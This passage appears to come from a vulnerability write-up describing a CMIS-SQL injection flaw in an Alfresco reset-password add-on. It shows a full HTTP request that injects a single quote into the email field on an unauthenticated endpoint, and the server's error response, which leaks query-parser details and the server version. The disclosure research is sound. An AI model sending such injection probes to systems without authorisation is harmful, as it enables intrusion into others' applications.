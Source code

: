 `Alfresco Reset Password add-on` is using [CMIS-SQL](https://hub.alfresco.com/t5/alfresco-content-services-hub/cmis-query-language/ba-p/289736) to query data from Alfresco, which is `a read-ony` query language for SELECT statement and with limited functions (like, UPPER, LOWER, etc...). 

Moving forward, I discover that the Reset Password is suffering from possible **CMIS-SQL Injection** when adding a single quote `(')` in the `e-mail` address input!

> Request to the Target Server

```http
POST /share/proxy/alfresco-noauth/com/flex-solution/reset-password HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.com/share/page/
X-Requested-With: application/json
Content-Type: application/json
Content-Length: 61
Connection: close
Cookie: JSESSIONID=C8207D808B749934EA6DACC4A1BF23A1; _alfTest=_alfTest

{
    "userName":"404-NotFound@amriunix.com'"
}
```
> Response from the Target Server

```http
HTTP/1.1 500 Internal Server Error
Date: Thu, 03 Sep 2020 22:19:05 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_auth_kerb/5.4
Strict-Transport-Security: max-age=315536000; includeSubDomains
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Pragma: no-cache
Content-Type: application/json;charset=UTF-8
Content-Length: 467
matched: externe-No-cockie-CAS
Connection: close

{
   "status":{
      "code":500,
      "name":"Internal Error",
      "description":"An error inside the HTTP server which prevented it from fulfilling the request."
   },
   "message":"08040025 Wrapped Exception (with status template): line 1:59 mismatched character '<EOF>' expecting '''",
   "exception":"",
   "callstack":[
      
   ],
   "server":"Community v5.2.0 (r135134-b14) schema 10,005",
   "time":"Sep 4, 2020 12:19:05 AM"
}

```
